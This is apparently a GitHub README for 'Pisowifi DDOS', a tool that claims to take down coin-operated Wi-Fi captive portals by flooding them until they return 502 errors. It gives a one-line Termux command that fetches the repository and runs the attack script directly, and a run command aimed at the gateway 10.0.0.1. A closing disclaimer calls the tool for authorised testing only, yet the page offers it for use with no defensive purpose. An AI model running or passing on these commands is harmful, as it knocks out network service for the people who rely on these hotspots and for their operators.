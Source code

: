# Pisowifi DDOS
502 Bad Gateway and take down the captive portal.

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- Termux

# Auto Install
```
pkg update && pkg upgrade -y && pkg install git python python-pip -y && git clone https://github.com/xiv3r/pisowifi-ddos && cd pisowifi-ddos && python3 ddos.py
```

# Run
```
python3 ddos.py -t 10.0.0.1 -p 80 -t 135
```
<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

### Disclaimer
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
